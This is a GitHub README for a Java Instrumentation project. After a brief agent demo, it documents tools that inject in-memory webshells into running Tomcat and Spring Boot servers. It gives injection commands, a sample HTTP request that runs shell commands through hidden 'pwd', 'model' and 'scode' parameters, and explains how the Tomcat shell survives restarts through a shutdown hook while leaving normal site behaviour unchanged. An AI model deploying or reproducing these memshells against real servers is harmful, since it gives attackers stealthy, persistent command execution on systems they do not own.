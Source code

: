 # JavaInstrument

## 1、A demo that uses Java Instrument.

The release stuff is in directory `hook-test`.

Usage:
 - step 1: Enter command as below in a terminal
```shell
java -jar TargetApp.jar
```
- step 2: Enter command as below in another terminal
```shell
java -jar AgentDemoStarted.jar
```
- step 3: Observe it in the first terminal.

![](images/1.gif)



## 2、An Agent-Type and eternal memshell for Tomcat

The release stuff is in directory `tomcat-agentmemshell-test`

Test environment: SpringMVC 5.2.0 + Tomcat 8.5.39

Usage:
 - step 1: Put your webapp(`xxx.war`) into `webapps` directory of Tomcat, and start up the Tomcat Server.
 - step 2: enter command as below.
```shell
java -jar AgentTomcatMemShellInject.jar <webshell-password>
```
 - step 3: To access the memshell, you can access an existing url or a not existing url with several specified parameters, 
   `pwd`,`model`,`scode`. Just like as below:
   ```
   POST /test/index HTTP/1.1
   Host: 127.0.0.1:8888
   Pragma: no-cache
   Cache-Control: no-cache
   DNT: 1
   Upgrade-Insecure-Requests: 1
   User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.60 Safari/537.36
   Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
   Accept-Encoding: gzip, deflate
   Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
   Cookie: JSESSIONID=BA296256CC1B51094A14795C62EF96B2; JSESSIONID=ECA0C078C7F6014BD41004139F5563EF; _dd_s=logs=1&id=1653c1be-a457-4604-938f-2abb59b78950&created=1649118027934&expire=1649120037627
   Connection: close
   Content-Type: application/x-www-form-urlencoded
   Content-Length: 38

   pwd=m01e&model=exec&scode=id;pwd;ls+-l
   ```
   
   You'll see there is no effect on existing logic when you don't add 
   the specified paremeters.
   
   
Worth mentioning that this memshell is eternal even if Tomcat server restarted.
Because the JVM **ShutdownHook** of Tomcat process is set. If you want to stop 
it from injecting again, you should kill the process `AgentTomcatMemShellInject.jar` 
before Tomcat restarting.

![](images/2.gif)

## 3、An Agent-Type memshell for Springboot.

The release stuff is in directory `springboot-agentmemshell-test`

Test environment: Springboot 2.6.0

Usage:
- step 1: Start your Springboot app(`.jar`) with command `java -jar xxx.jar`.
- step 2: Access an existing url or a not existing url without any parameter.  
- step 3: Enter command as below.
```shell
java -jar AgentSpringbootMemShellInject.jar <webshell-password> <target-springboot-app-jar-name-without-suffix>

# e.g
java -jar AgentSpringbootMemShellInject.jar m01e springboot-controller-memshell-0.0.1-SNAPSHOT
```
- step 4: Access an existing url or a not existing url with several specified parameters,
  `pwd`,`model`,`scode`.

Similarly, there is no effect on existing logic when you don't add
the specified paremeters.

![](images/3.gif)

But I can't make this memshell eternal when the Springboot app process restarted.
Because when the agent is attached into Springboot app, I have no idea how to obtain the Tomcat port in the `agentmain()` method.


## Reference：
Inspired by rebeyond: <br>
[1] https://www.cnblogs.com/rebeyond/p/9686213.html <br>
[2] https://github.com/rebeyond/memShell